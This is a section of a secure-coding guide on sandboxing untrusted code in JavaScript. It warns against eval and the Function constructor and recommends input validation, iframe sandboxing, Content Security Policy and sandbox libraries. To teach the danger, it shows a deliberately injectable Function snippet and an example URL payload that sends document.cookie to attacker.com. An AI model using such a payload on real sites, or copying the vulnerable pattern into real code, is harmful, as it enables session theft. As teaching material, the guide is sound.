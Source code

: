 Sandboxing
==========

Special on [Output Encoding][1] and [Database Security][2] sections you've been
told that user input should be always handled as untrusted and unsafe data.
Moreover user input data should never be subject of string concatenation to
computed, for examples, database queries.

You'll find more to General Coding Practices on [OWASP SCP - Quick Reference
Guide][3] which we will address together:

* "_Do not pass user supplied data to any dynamic execution function_"
* "_Restrict users from generating new code or altering existing code_"

Let's be brief: `eval` is evil (or at least it is when misunderstood)!

[`eval`][4] is a JavaScript function which, generally speaking, evaluates given
argument (`String`) as source code, making it execute in the runtime context.

This would be the same than dynamically add a new `<script>` HTML element to
the page's body.

Note that evaluating arbitrary user input in your application's runtime context
**SHOULD NEVER** be done.

`eval` is not the only way to evaluate arbitrary `String`s: you may want to have
a look at [Function constructor][5]. We go with a simple examples

```javascript
const myAlert = Function('alert("' + document.location.hash.substring(1) + '")');
myAlert();
```

So, let's visit and "share sorrys"

```
https://example.com/#sorry");(new Image).src="//attacker.com/?cookie="+document.cookie;("
```

Rule of thumbs and further more that user input (as other data sources may cause
you troubles): [identify and classify your data sources as "trusted" and
"untrusted"][6] and **ALWAYS** (but **ALWAYS) perform [input validation][7],
rejecting the invalid input.

If after all you really need to execute untrusted data, please use a sandbox.

On the client-side the best you can do is loading the insecure content in a
`<iframe>` HTML element with the attribute `sandbox` set. You can [find the specification
here][8]. Whenever possible, provide a [Content Security Policy][9].

Server-side you have a few more options.
Have a look at these projects:

* [gf3/sanbox][10]
* [patriksimek/vm2][11]
* [PhantomJS][12] (_a headless WebKit scriptable with a JavaScript API._)

**Note** that [Node.js VM module][13] is not intended to execute untrusted code.

[1]: ../output-encoding/README.md
[2]: ../database-security/README.md
[3]: https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-_Quick_Reference_Guide
[4]: http://www.ecma-international.org/ecma-262/6.0/#sec-eval-x
[5]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function
[6]: ../input-validation/data-sources.md
[7]: ../input-validation/README.md
[8]: https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox
[9]: ./content-security-policy.md
[10]: https://github.com/gf3/sandbox
[11]: https://github.com/patriksimek/vm2
[12]: http://phantomjs.org/
[13]: https://nodejs.org/dist/latest-v6.x/docs/api/vm.html